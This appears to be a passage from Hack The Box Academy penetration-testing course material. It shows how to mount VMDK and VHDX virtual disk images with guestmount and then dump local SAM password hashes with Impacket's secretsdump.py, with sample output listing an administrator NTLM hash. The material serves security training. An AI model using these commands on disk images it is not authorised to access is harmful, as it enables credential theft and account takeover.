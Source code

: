## Mount VHDX/VMDK

#### Mount VMDK on Linux

``` shell-session
[!bash!]$ guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

#### Mount VHD/VHDX on Linux

``` shell-session
[!bash!]$ guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

![https://academy.hackthebox.com/storage/modules/67/mount.png](https://academy.hackthebox.com/storage/modules/67/mount.png)

#### Retrieving Hashes using Secretsdump.py

``` shell-session
[!bash!]$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

# 

# 

#### Questions

####